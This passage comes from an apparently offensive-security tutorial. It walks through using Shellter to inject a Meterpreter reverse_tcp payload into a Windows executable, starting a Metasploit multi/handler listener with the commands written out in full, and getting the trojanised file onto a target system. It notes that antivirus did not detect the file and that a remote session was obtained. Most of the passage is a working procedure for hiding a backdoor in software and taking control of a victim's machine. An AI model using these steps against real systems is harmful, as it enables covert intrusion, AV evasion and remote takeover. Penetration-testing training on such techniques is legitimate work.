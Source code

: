 1. You will now be prompted to specify the Meterpreter payload options, in this case you will need to set the LHOST and LPORT options as highlighted in the screenshot below.

    ![Shellter payload LHOST and LPORT prompt](shellter-payload-lhost-lport-prompt.png "Shellter payload LHOST and LPORT prompt")

1. After specifying the Meterpreter payload options, Shellter will begin the process of injecting the payload into the target PE. Afterwards, Shellter will confirm the injection process as shown in the following screenshot.

    ![Shellter payload injection confirmation](shellter-payload-injection-confirmation.png "Shellter payload injection confirmation")

1. We will now need to setup the listener with Metasploit to receive a reverse tcp connection when the target executable is executed. This can be done by running the following commands in the Metasploit-framework:

        msfconsole
        use multi/handler
        set payload windows/meterpreter/reverse_tcp
        set LHOST <IP>
        set LPORT <PORT>
        run

1. After setting up the Metasploit listener, you will now need to transfer the target PE we injected the payload into the target system. Once the target PE is executed, we should receive a meterpreter session on our listener as shown in the screenshot below.

    ![Metasploit meterpreter session](metasploit-meterpreter-session.png "Metasploit meterpreter session")

    The execution of the target PE on the target system is not detected by the AV and as a result, we were able to obtain a meterpreter session on the target system.